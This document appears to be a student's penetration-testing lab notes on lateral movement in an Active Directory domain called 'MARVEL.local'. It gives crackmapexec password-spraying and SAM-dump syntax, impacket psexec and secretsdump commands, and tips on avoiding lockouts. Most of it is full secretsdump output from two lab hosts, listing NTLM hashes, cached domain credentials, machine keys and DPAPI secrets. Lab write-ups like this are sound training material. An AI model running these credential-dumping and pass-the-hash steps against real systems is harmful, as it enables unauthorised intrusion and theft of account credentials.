

Allows lateral movement throughout the network
You can crack hashes and pas the pass word around loolking for local accounts on machines with that user name and password.
OR
you can just pass the passsword hash around again looking for other machines that that account has a local account
INSTALL CRACKMAPEXEC
sudo apt install crackmapexec
Syntax > sudo crackmapexec smb 192.168.247.0/24 -u lhowlette -d MARVEL.local -p Password1
New change smb required before IP
-u = user name
-d = domain
-p = cracked password

we had wolverine... now we potentialy have Phoenix
Didnt get the DC
"Pwn3d!" = has access
adding --sam to end of command will attempt to dump sam file of pwn3d machines
We can try using the creds now to move to other machines machines using psexec (noisy)
syntax > impacket-psexec.py <domain>/<username>:<password>@<IP>

NOTE > Password praying is ok on local accounts.... be careful with domain accounts due to lockout policy with failed attempts
DUMPING HASHES
SECRETSDUMP.py > also part of impacket tool kit
Dump for all machines you have a log on for. In this case its .134 and .135
syntax > impacket-secretsdump.py <domain>/<username>:<password>@<IP>
┌──(kali㉿kali)-[~]
└─$ impacket-secretsdump marvel.local/lhowlette:Password1@192.168.247.134 130 ⨯
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation
[*] Service RemoteRegistry is in stopped state
[*] Service RemoteRegistry is disabled, enabling it
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0x26885065905c4cd9a294c18b2574a70b
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:53dfc04147dd08ee2761f307750ebaeb:::
Jean Grey:1001:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
[*] Dumping cached domain logon information (domain/username:hash)
MARVEL.LOCAL/jgrey:$DCC2$10240#jgrey#858435f89fadfae0f8a08747508fc5a4
MARVEL.LOCAL/Administrator:$DCC2$10240#Administrator#c7154f935b7d1ace4c1d72bd4fb7889c
[*] Dumping LSA Secrets
[*] $MACHINE.ACC
MARVEL\PHOENIX$:aes256-cts-hmac-sha1-96:cac14c45978c5aa41646279d5620edabd36b1820910c51adf2ffe9fd08368ac3
MARVEL\PHOENIX$:aes128-cts-hmac-sha1-96:7f26a554f5a1888a46890d6f96f3d977
MARVEL\PHOENIX$:des-cbc-md5:91d66146fe5280f4
MARVEL\PHOENIX$:plain_password_hex:600048003a0060004a005b0039002100570071005d0058002d0044006c00520034002a005c00650045005f003800200044003e005c00240028002b003600230049003e00640043007a0050003e005600390059002c00760067004e00320053003f006b002e003b00310027002000750036003d004a00730021003e0065005e004600670058004d006c0079005b00380069005b006b0062005a004d0021002500290026005f00460049007400490039002a002b0053005f004800200057006f00700037003d003f0061004d0076005d004f0035005300380033005d002c006a00420067004100630046002e0049005600
MARVEL\PHOENIX$:aad3b435b51404eeaad3b435b51404ee:b654bec2104e1e1c2a7fc5e6c1e2804b:::
[*] DPAPI_SYSTEM
dpapi_machinekey:0xd8f493402f1f6151f3eedd0b64e2177f37b67af4
dpapi_userkey:0x8a0d772f4656c4ed15841f572fc7b10456a32ca8
[*] NL$KM
0000 52 B4 6F 5C D0 1C 86 B6 7D B4 0D B2 55 DC AD B3 R.o\....}...U...
0010 E9 48 2E DB 70 0D C2 A9 77 39 BF 1B 33 32 DA 53 .H..p...w9..32.S
0020 87 9B E6 95 A6 D0 71 63 A1 91 24 03 37 49 46 F9 ......qc..$.7IF.
0030 A0 EA D0 17 B2 11 A3 8C F3 0D 3F 7A 55 7B 27 5C ..........?zU{'\
NL$KM:52b46f5cd01c86b67db40db255dcadb3e9482edb700dc2a97739bf1b3332da53879be695a6d07163a1912403374946f9a0ead017b211a38cf30d3f7a557b275c
[*] Cleaning up...
[*] Stopping service RemoteRegistry
[*] Restoring the disabled state for service RemoteRegistry
┌──(kali㉿kali)-[~]
└─$ impacket-secretsdump marvel.local/lhowlette:Password1@192.168.247.135 130 ⨯
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation
[*] Service RemoteRegistry is in stopped state
[*] Service RemoteRegistry is disabled, enabling it
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0xf8687806db3f3598afa50073dda79d7c
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:43e415a31348a644f60616a676d7554f:::
Logan:1001:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
[*] Dumping cached domain logon information (domain/username:hash)
MARVEL.LOCAL/lhowlette:$DCC2$10240#lhowlette#3061a80908a0a5f21745665af4c14818
MARVEL.LOCAL/Administrator:$DCC2$10240#Administrator#c7154f935b7d1ace4c1d72bd4fb7889c
[*] Dumping LSA Secrets
[*] $MACHINE.ACC
MARVEL\WOLVERINE$:aes256-cts-hmac-sha1-96:64b4b2120df07723fc45a64872619e8d5daff194a165536c97020f2698d68ebd
MARVEL\WOLVERINE$:aes128-cts-hmac-sha1-96:5bb4f3917bc219475ea6c7a15a1c78ae
MARVEL\WOLVERINE$:des-cbc-md5:7557643e8a45c2da
MARVEL\WOLVERINE$:plain_password_hex:610029004300590071003500620068002c00790023007900650055002400790033007600760076004b0058006f003e003c003d005d00460020002f00200052006b0041002a0024004f005f002e0076002b00450050005d00720060003a007a0042004100320034007900560078004d005c0038004c006100760030005e002700310033003400270026004c00750034007800690067007a006a00760071006f007000480033007300240037002a002f00420056002500480078004000650043004700690030004b0023005d0071004d004f005f005800380075004c002a00450022003a002c0042004b00460024006f00
MARVEL\WOLVERINE$:aad3b435b51404eeaad3b435b51404ee:ab3c964e61b4dda7c9393b916f1fea97:::
[*] DPAPI_SYSTEM
dpapi_machinekey:0x9620cddd37c0f1ab123a02dbb10555099a48df28
dpapi_userkey:0xfd38edd50abbb2c3f1d297a3651dac77559f65d1
[*] NL$KM
0000 3D 70 8D D2 CB 63 85 03 68 9D 9C BE CA 4A CB AE =p...c..h....J..
0010 AA CB B0 BA 3E 3D 28 C6 7E EF C9 19 23 74 28 BC ....>=(.~...#t(.
0020 6E 4B F4 54 AF E0 36 F1 75 51 B0 42 FA 09 03 8A nK.T..6.uQ.B....
0030 FC 24 F6 E0 43 01 DE 8B 22 12 CA 59 78 5B 1F 6F .$..C..."..Yx[.o
NL$KM:3d708dd2cb638503689d9cbeca4acbaeaacbb0ba3e3d28c67eefc919237428bc6e4bf454afe036f17551b042fa09038afc24f6e04301de8b2212ca59785b1f6f
[*] Cleaning up...
[*] Stopping service RemoteRegistry
[*] Restoring the disabled state for service RemoteRegistry
NOTE > Can pass NTLM hashes
CAN NOT pass NTLM2 hashes